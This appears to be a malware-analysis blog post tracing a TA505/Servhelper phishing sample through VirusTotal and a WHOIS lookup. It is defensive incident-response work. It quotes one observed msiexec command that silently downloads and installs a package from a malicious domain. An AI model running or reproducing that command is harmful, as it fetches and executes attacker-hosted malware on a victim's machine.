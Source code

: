 ```yaml
---
layout: post
title:  "TA505 and Servhelper Malware Part 2"
description: "A walkthrough on analysising a suspicious mail attachment to the discovery and identification of malware"
date:   2019-01-19 10:49:33 +0000
tags: [Malware, Incident Response]
---
```


This time out 3rd party mail hosting provider has alerted us to potential malware through a blocked phishing campaign.  They can't provide us with a sample but can only confirm the file hash SHA256 e0ff9f915289dd690132e8dc1121506613d34c43d79944ef66c307736b477e60.

Not the ideal situation, but maybe we can get lucky and find a sample that has already been submitted to VirusTotal?

## VirusTotal Threat Hunting
* [https://www.virustotal.com/#/file/e0ff9f915289dd690132e8dc1121506613d34c43d79944ef66c307736b477e60/detection](https://www.virustotal.com/#/file/e0ff9f915289dd690132e8dc1121506613d34c43d79944ef66c307736b477e60/detection)

Bingo! Someone has already uploaded an identical sample :)

![Virus Total Results](/blog/assets/TA505-VT-Jan19.png)

VirusTotal has a new behaviour tab, where we can get adiditional notes on dropped files, modified registry keys etc.

Under Processes and Shell commands we have:
 * msiexec.exe val=conn rdp=pupic /i http://upgradeoffice365.com/pack /q OnLoad="c:\windows\notepad.exe"
Now this string looks mighty familiar to a URI in our last post [TA505-Servhelper-Part1](https://www.netscylla.com/blog/2019/01/17/TA505-Servhelper-Part-1.html)

![VT Process List](/blog/assets/TA505-VT-Process.png)

Whois record:

```
Domain Name: UPGRADEOFFICE365.COM
   Registry Domain ID: 2352203051_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.reg.com
   Registrar URL: http://www.reg.ru
   Updated Date: 2019-01-14T10:30:34Z
   Creation Date: 2019-01-14T10:26:31Z
   Registry Expiry Date: 2020-01-14T10:26:31Z
   Registrar: REGISTRAR OF DOMAIN NAMES REG.RU LLC
   Registrar IANA ID: 1606
   Registrar Abuse Contact Email: abuse@reg.ru
   Registrar Abuse Contact Phone: +74955801111
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Name Server: A.DNSPOD.COM
   Name Server: B.DNSPOD.COM
   Name Server: C.DNSPOD.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2019-01-14T19:19:57Z <<<
```
 